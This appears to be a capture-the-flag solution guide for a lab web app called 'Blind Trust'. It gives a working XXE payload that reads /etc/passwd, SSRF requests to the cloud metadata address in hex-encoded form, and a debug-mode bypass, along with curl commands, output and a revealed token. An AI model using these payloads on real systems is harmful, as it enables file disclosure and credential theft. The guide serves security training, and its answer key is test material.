










# Blind Trust

This solution guide provides challengers with a walkthrough of our new XXE based challenge, Blind Trust.

## Prerequisites & Preparation
This challenge needs access the exposed website found on port `5000` via `http` (not https).

# Overview
* Inspect the site's XML-driven components for unusual behavior.
* Discover indirect access methods through lesser-known routes.
* Demonstrate control over backend communications by crafting non-standard HTTP payloads.
* Collect all 4 embedded access tokens hidden across the app’s layers.

## Question 1
***Token 1: Exploit an XML parsing vulnerability in the telemetry submission interface to retrieve sensitive internal data from /etc/passwd.***

1) During discovery phase operations (feeling out the application), you will run into the Telemetry Data Submission form located at `http://nebula:5000/telemetry/submit`



It accepts raw XML via form field data labeled "node" and is looking for specific features to enable successful execution of this injection type:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

Submit the query using the following command:

```bash
curl -X POST http://nebula:5000/telemetry/submit -d 'node=<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root><data>&xxe;</data></root>'
```

If the technique executes as expected (standard XXE Injection structure), the user is presented with the first token:



### Answer

The value of the token is the `answer` to this question.

## Question 2
***Token 2: Submit a log to the Production system using the correct format to retrieve this token. All incorrect submissions will be simply logged without token issuance.***

1) The `/api/submitlog` function can be found in the developer guide found at `http://nebula:5000/help`. To get there, you must go to "Submit Telemetry" and then you will notice an additional option that isn't traditionally on any page (Developer Guide):







2) The entry for this specific endpoint (/api/submitlog) states that the appropriate syntax requires a POST method in use and in the data section, `entry=SYSTEM_NAME`. 

In this case, the SYSTEM_NAME is NEBULA as is stated on the homepage:



3) In testing, we find that sending anything other than a packet in the correct format yields a generic confirmation:

```bash
┌──(user㉿85a2da107e67)-[~]
└─$ curl -X POST http://nebula:5000/api/submitlog 
Log recorded

┌──(user㉿85a2da107e67)-[~]
└─$ curl -X POST http://nebula:5000/api/submitlog -d entry=OK
Log recorded
```

3) Let's combine all of this to get the token:

```bash
curl -X POST http://nebula:5000/api/submitlog -d "entry=NEBULA"
```

Here's the desired output:



### Answer

This value is `answer` to this question.

## Question 3
***Token 3: Successfully send a report in the correct format using the /report/render endpoint (SSRF via XML)***

1) The application expects the desired value to be sent to it in HEX format which is present in the `developer guide (/help)`. This specific objective's logic helps challengers walkthrough building a SSRF payload. Here's an image of actively working towards the solution:



2) The correct payload ends up being (if ASCII based hex encoding is used):

```bash
curl -X POST http://nebula:5000/report/render -H "Content-Type: application/xml" --data '<report><url>http://0x3136392e3235342e3136392e323534/latest/metadata</url></report>'
```



Additionally octal hex is supported:

```bash
curl -X POST http://nebula:5000/report/render -H "Content-Type: application/xml" --data '<report><url>http://0xA9FEA9FE/latest/metadata</url></report>'
```

### Answer

The value of the token is the `answer` to this question.

## Question 4
***Token 4: Determine a way to enable Debug Mode and access the '/internal/notes' endpoint.***

1) Reading the guide `(/help)` leads challengers to a mention of the `set_debug URI` and `notes`.

2) Simply navigate to set_debug FIRST to enable debugging and then to /internal/notes to retrieve the final token:

```bash
curl http://nebula:5000/internal/set_debug -vv
```

Output:

```text
20:44:12.247380 [0-0] * Host nebula:5000 was resolved.
20:44:12.247438 [0-0] * IPv6: (none)
20:44:12.247467 [0-0] * IPv4: 10.0.62.66
20:44:12.247490 [0-0] * [SETUP] added
20:44:12.247532 [0-0] *   Trying 10.0.62.66:5000...
20:44:12.247617 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=0
20:44:12.247639 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=1
20:44:12.247672 [0-0] * Established connection to nebula (10.0.62.66 port 5000) from 10.0.62.68 port 50628 
20:44:12.247700 [0-0] * [SETUP] query ALPN
20:44:12.247729 [0-0] * using HTTP/1.x
20:44:12.247774 [0-0] > GET /internal/set_debug HTTP/1.1
20:44:12.247774 [0-0] > Host: nebula:5000
20:44:12.247774 [0-0] > User-Agent: curl/8.17.0
20:44:12.247774 [0-0] > Accept: */*
20:44:12.247774 [0-0] > 
20:44:12.247889 [0-0] * Request completely sent off
20:44:12.248763 [0-0] < HTTP/1.1 200 OK
20:44:12.248780 [0-0] < Server: Werkzeug/3.1.4 Python/3.11.14
20:44:12.248803 [0-0] < Date: Wed, 24 Dec 2025 20:44:12 GMT
20:44:12.248837 [0-0] < Content-Type: text/html; charset=utf-8
20:44:12.248866 [0-0] < Content-Length: 18
20:44:12.248887 [0-0] < Connection: close
20:44:12.248926 [0-0] < 
20:44:12.248965 [0-0] * shutting down connection #0
Debug mode enabled
```

You will then see:

```text
Debug mode enabled.
```

Next, simply go to the `notes` URI to complete the challenge:

```bash
curl http://nebula:5000/internal/notes -vv
```

Output:

```text
20:45:15.280104 [0-0] * Host nebula:5000 was resolved.
20:45:15.280167 [0-0] * IPv6: (none)
20:45:15.280205 [0-0] * IPv4: 10.0.62.66
20:45:15.280232 [0-0] * [SETUP] added
20:45:15.280274 [0-0] *   Trying 10.0.62.66:5000...
20:45:15.280388 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=0
20:45:15.280411 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=1
20:45:15.280439 [0-0] * Established connection to nebula (10.0.62.66 port 5000) from 10.0.62.68 port 59228 
20:45:15.280466 [0-0] * [SETUP] query ALPN
20:45:15.280495 [0-0] * using HTTP/1.x
20:45:15.280552 [0-0] > GET /internal/notes HTTP/1.1
20:45:15.280552 [0-0] > Host: nebula:5000
20:45:15.280552 [0-0] > User-Agent: curl/8.17.0
20:45:15.280552 [0-0] > Accept: */*
20:45:15.280552 [0-0] > 
20:45:15.280670 [0-0] * Request completely sent off
20:45:15.281593 [0-0] < HTTP/1.1 200 OK
20:45:15.281623 [0-0] < Server: Werkzeug/3.1.4 Python/3.11.14
20:45:15.281646 [0-0] < Date: Wed, 24 Dec 2025 20:45:15 GMT
20:45:15.281677 [0-0] < Content-Type: text/html; charset=utf-8
20:45:15.281705 [0-0] < Content-Length: 50
20:45:15.281736 [0-0] < Connection: close
20:45:15.281767 [0-0] < 
Internal Debug Notes:
20:45:15.281810 [0-0] * shutting down connection #0
✅ TOKEN4::PCCC{BLT-A0S6pO}
```

Here's an image of the workflow:



### Answer

The value of the token is the `answer` to this question.

**This completes the Solution Guide for this challenge.**